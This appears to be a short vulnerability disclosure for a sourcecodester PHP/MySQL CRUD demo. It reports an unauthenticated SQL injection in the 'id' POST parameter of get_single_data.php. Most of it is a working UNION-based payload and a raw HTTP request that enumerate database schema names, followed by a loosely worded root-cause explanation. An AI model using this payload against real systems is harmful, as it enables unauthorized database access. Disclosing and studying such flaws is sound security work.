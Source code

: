 # CRUD (Create, Read, Update, Delete) Without Page Reload/Refresh Using PHP and MySQL with Source Code - SQL injection vulnerability

### You do not need to log in to the website to remotely trigger SQL injection vulnerabilities!

Supplier:https://www.sourcecodester.com/php/17146/crud-create-read-update-delete-without-page-reloadrefresh-using-php-and-mysql-source-code

http://localhost/get_single_data.php   -----> POST -----> 'id' can control some id parameters

Payload:id=-8845' UNION ALL SELECT (SELECT CONCAT(0x01,IFNULL(CAST(schema_name AS CHAR),0x20),0x01) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 12,1),NULL,NULL,NULL,NULL-- -

Running this payload will display the name of the database. This indicates that the malicious SQL statement has been successfully executed in the database, allowing database UNION query queries.

```r
POST /get_single_data.php HTTP/1.1
Host: xxxxxxxx
Content-Type: application/x-www-form-urlencoded
Content-Length: 160

id=-8845' UNION ALL SELECT (SELECT CONCAT(0x01,IFNULL(CAST(schema_name AS CHAR),0x20),0x01) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 12,1),NULL,NULL,NULL,NULL-- -
```

![1](/img/4.png)

The include method in the second line of the get_single.data.php file in the root directory of the website retrieves user input from the POST element. Then, the value of this element will be passed to the code without proper purification or validation, and ultimately used for database queries in the include method on line 4 of the get_single.data.php file, leading to SQL injection attacks.

![2](/img/5.png)
